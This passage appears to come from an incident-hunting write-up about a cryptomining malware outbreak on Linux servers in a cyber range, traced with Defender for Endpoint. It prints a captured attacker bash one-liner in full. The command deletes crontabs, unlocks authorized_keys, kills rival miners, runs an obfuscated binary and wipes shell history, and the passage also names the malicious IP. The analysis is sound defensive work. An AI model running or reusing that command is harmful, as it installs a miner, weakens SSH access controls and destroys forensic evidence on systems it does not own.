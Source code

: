 ```
bash
bash -c "crontab -r ; chattr -iae ~/.ssh/authorized_keys >/dev/null 2>&1 ; cd /var/tmp ; rm -rf /dev/shm/.x /dev/shm/rete* /var/tmp/payload /tmp/.diicot /tmp/kuak ; chattr -iae /var/tmp/Documents/.diicot ; chattr -iae /var/tmp/.update-logs/History ; chattr -iae /var/tmp/.update-logs/Update ; rm -rf /var/tmp/.update-logs /var/tmp/Documents ; mkdir /var/tmp/Documents > /dev/null 2>&1 ; cd /var/tmp/ ; pkill Opera ; rm -rf /var/tmp/Documents /var/tmp/.update-logs ; rm -rf xmrig  .diicot .black Opera ; rm -rf .black xmrig.1 ; pkill cnrig ; pkill java ; killall java ;  pkill xmrig ; killall cnrig ; killall xmrig ;cd /var/tmp/ ; chmod 777 MNFleGNm ; ./MNFleGNm </dev/null &>/dev/null & disown ; history -c ; rm -rf .bash_history ~/.bash_history"
```
![image](https://github.com/user-attachments/assets/32a440fd-9970-4434-aa70-79694a86361c)
![image](https://github.com/user-attachments/assets/c31054ab-c0e8-44e0-9821-a500751a37cd)
![image](https://github.com/user-attachments/assets/eda92468-62ec-4575-b6e6-74476c5e593a)

Based on this deviation from the behavior, it seems that some patterns differ. However we did secure one common pattern and that is the IP address 196.251.73.38 for connection requests for the MNFleGNm file, as we recall is ns1432.ztomy.com located in Amsterdam, the malicious and miner IP. Following this discovery, I queried the network for the remote IP and found four of the six devices in question to have connection requests to obsfucated files or scripts.

![image](https://github.com/user-attachments/assets/cf3d662a-bcaa-4682-9296-24d20ce0a4e6)
![image](https://github.com/user-attachments/assets/b9dee791-6692-4c0a-bfc0-a4ad17df7a3a)

With this I believe we can within a certain margin of error, conclude that this is the most that advanced hunting on MDE will get us. The patterns seem to repeat in a mmaner of the attacker gains access to Linux Ubuntu Servers, somehow runs a legitmate MOTD to begin the recon chain and perhaps file creation, leading to another login that pushes a scp command to begin the attack chain. The question now is how did this malware proliferate among the network, my theory is the .x/network script that probes the internal network once from the infected devices. This would allow a script to attempt to gain access to misconfigured devices as the cyber range conducts labs that intentionally misconfigure devices.

The question on our minds now would be "What was the first machine to have this malware in the network?", with MDE Device Invetory and MDE Incidents, we see that the first machine to run a retea script is linuxprogramfixjay on January 9th at 0639 AM, following the same set of patterns observed on the linux program fix device with a slight change to the order of operations. Where retea is initially executed without an obsfucated file to initiate, now it seems to rely on executing retea after running a obsfucated script.

![image](https://github.com/user-attachments/assets/1a3efa81-3ac0-4893-85a0-53b684aa630b)
![image](https://github.com/user-attachments/assets/11eaa508-7f68-4b6e-8f27-e960e670dd8d)


## Summary of Findings

### **Validated Brute-Force Allegation:**

**Source Confirmation:** The reported public IP was confirmed to belong to our Azure environment.
